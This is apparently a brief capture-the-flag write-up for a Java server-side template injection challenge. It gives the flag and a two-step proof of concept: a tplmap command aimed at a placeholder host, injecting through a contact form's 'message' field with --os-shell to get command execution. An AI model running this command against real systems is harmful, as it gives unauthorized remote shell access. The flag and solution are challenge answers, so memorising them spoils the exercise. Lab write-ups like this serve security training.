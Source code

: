 #Флаг
SSTI_JAVA_FR3_maker


# POC

1) tplmap.py --url http://IP/ --data "name=123&email=123&phone=123&service=Please+chooses&productType=Residential&valueFrom=20000&valueTo=80000&message=123123*" --os-shell
2) Если все ок, будет возможность выполнять команды в консоли